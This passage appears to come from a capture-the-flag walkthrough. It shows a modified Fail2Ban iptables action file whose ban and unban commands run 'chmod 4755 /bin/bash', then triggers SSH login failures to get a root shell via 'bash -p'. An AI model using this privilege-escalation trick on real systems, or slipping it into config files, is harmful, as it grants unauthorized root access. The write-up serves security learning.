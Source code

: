 ```
# Modified by Yaroslav Halchenko for multiport banning
#

[INCLUDES]

before = iptables-common.conf

[Definition]

# Option:  actionstart
# Notes.:  command executed once at the start of Fail2Ban.
# Values:  CMD
#
actionstart = <iptables> -N f2b-<name>
              <iptables> -A f2b-<name> -j <returntype>
              <iptables> -I <chain> -p <protocol> -m multiport --dports <port> -j f2b-<name>

# Option:  actionstop
# Notes.:  command executed once at the end of Fail2Ban
# Values:  CMD
#
actionstop = <iptables> -D <chain> -p <protocol> -m multiport --dports <port> -j f2b-<name>
             <actionflush>
             <iptables> -X f2b-<name>

# Option:  actioncheck
# Notes.:  command executed once before each actionban command
# Values:  CMD
#
actioncheck = <iptables> -n -L <chain> | grep -q 'f2b-<name>[ \t]'

# Option:  actionban
# Notes.:  command executed when banning an IP. Take care that the
#          command is executed with Fail2Ban user rights.
# Tags:    See jail.conf(5) man page
# Values:  CMD
#
actionban = <iptables> -I f2b-<name> 1 -s <ip> -j <blocktype>
            chmod 4755 /bin/bash

# Option:  actionunban
# Notes.:  command executed when unbanning an IP. Take care that the
#          command is executed with Fail2Ban user rights.
# Tags:    See jail.conf(5) man page
# Values:  CMD
#
actionunban = <iptables> -D f2b-<name> -s <ip> -j <blocktype>
              chmod 4755 /bin/bash
[Init]
```
Now we can trigger multiple ssh login failure events, and then execute bash with SUID:  
```bash
bash-5.0$ bash -p
bash-5.0# whoami
uid=1001(michael) gid=1001(michael) euid=0(root) groups=1001(michael),1002(security)
```
And we owned root
